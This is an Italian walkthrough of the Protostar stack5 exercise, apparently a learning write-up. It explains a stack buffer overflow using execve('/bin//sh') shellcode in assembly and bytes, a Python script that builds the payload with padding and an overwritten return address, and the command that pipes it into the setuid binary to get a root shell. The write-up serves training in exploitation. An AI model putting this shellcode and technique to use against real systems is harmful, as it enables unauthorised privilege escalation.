 ```bash
xor %eax, %eax        # azzera EAX (preparazione)
push %eax             # push di un NULL sullo stack (terminatore stringa)
push $0x68732f2f      # "//sh"
push $0x6e69622f      # "/bin"
mov %esp, %ebx        # EBX = puntatore a "/bin//sh"
mov %eax, %ecx        # argv = NULL
mov %eax, %edx        # envp = NULL
mov $0xb, %al         # eax = 11 -> syscall execve
int $0x80             # interrupt per fare la syscall

xor %eax, %eax        # prepara exit(0)
inc %eax
int $0x80
```

Per ottenere la sequenza di byte eseguibii dobbiamo scrivere il file assembly e compilarlo senza generare l'eseguibile finale, in questo modo otteniamo gli **opcode** eseguibili.  
Copiamo tali opcode e li inseriamo in un file python che manderà l'input malevolo.


```python
length = 76 #lunghezza a cui si trova il return address del main 


# indirizzo di ritorno del buffer, è la parte che dobbiamo modificare dello script (otteniamo l'indirizzo del buffer con il debugger)
ret = '\x00\x00\x00\x00' 
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
            "\x68\x68\x2f\x62\x69\x6e\x89" + \
            "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
            "\xcd\x80\x31\xc0\x40\xcd\x80"
padding = 'a' * (length - len(shellcode))

payload = shellcode + padding + ret
print payload
```

A questo punto una volta calcolato l'indirizzo del buffer lo trasformiamo in little endian e lo inseriamo nello script (`ret = '\x90\xfc\xff\xbf'`).   

Ora eseguiamo lo script e mettiamo l'output in `/tmp/payload`  
A qeusto punto siamo pronti a sfruttare l'exploit, mandiamo l'input malevolo e noteremo che verrà aperta una nuova shell, facendo `id` noteremo che avremo euid=0 (root) in quanto la shell avrà ereditato i permessi del file vulenerabile.  

```bash
(cat /tmp/payload; cat) | /opt/protostar/bin/stack5
```

Risulta necessario usare due volte `cat` in quanto serve uno STDIN per la shell che creeremo (altrimenti al primo input riceverà un EOF).  
- il primo cat inietta l'input malevolo ed attiva la shell 
- il secondo accetta input da STDIN e lo inoltra alla shell 

